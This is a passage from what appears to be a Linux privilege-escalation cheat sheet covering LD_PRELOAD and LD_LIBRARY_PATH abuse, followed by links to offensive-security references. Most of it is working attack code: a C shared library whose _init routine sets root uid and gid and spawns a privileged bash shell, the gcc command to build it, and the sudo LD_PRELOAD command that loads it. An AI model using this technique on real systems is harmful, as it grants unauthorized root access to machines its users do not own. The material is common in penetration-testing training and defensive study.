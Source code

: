 If you can control LD_PRELOAD or LD_LIBRARY_PATH when running a SUID binary:

1. Create a malicious shared library:
```bash
cat << EOF > /tmp/evil.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
    exit(0);
}
EOF

gcc -fPIC -shared -o /tmp/evil.so /tmp/evil.c -nostartfiles
```

2. Use LD_PRELOAD to load the malicious library:
```bash
sudo LD_PRELOAD=/tmp/evil.so program
```

3. Alternatively, use LD_LIBRARY_PATH to point to a directory with malicious libraries:
```bash
LD_LIBRARY_PATH=/tmp program
```

## Resources

- [GTFOBins](https://gtfobins.github.io/)
- [PayloadsAllTheThings - Linux Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [HackTricks - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
- [g0tmi1k's Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) 
